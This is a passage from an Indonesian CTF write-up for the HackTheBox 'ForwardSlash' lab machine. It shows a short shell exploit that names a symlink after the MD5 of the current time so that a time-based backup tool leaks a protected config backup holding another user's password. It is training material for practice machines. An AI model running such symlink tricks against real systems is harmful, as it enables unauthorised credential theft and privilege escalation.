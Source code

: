 terdapat file yang menarik yaitu backup.. kita coba jalankan

```bash
chiv@forwardslash:/var/www/backup.forwardslash.htb$ backup
----------------------------------------------------------------------
	Pains Next-Gen Time Based Backup Viewer
	v0.1
	NOTE: not reading the right file yet, 
	only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 11:56:51
ERROR: d99c2c7f8fe2c01787f88e9974e4f1fa Does Not Exist or Is Not Accessible By Me, Exiting...
```			

Setiap kali kita menjalankan script ini, kita mendapatkan MD5Sum baru dan jika kita crack md5 pada bagian error-nya maka hanya akan menampilkan waktu.. Jadi pemikirannya di sini adalah bahwa jika kita memberinya file backup ini dengan MD5 yang sesuai, kita dapat 'mendekripsi' backup tersebut. kita perlu mendapatkan MD5 saat ini dan menautkannya ke file target

```bash
t="$(date +%H:%M:%S | tr -d '\n' | md5sum | tr -d ' -')"
ln -s /var/backups/config.php.bak /home/chiv/$t
backup
```				

Rincian singkat: Baris pertama adalah memberikan tanggal / waktu saat ini dan Jumlah MD5. Selanjutnya kita menautkan target config.php.bak ke variabel waktu itu. Lalu kami memanggil backup tool. setelah dijalankan maka kita akan mendapat password dari pain 

![alt shell](/assets/img/forwardslash/pain-pass.png)

### Gaining root {#root}

sekarang kita bisa login ke user pain
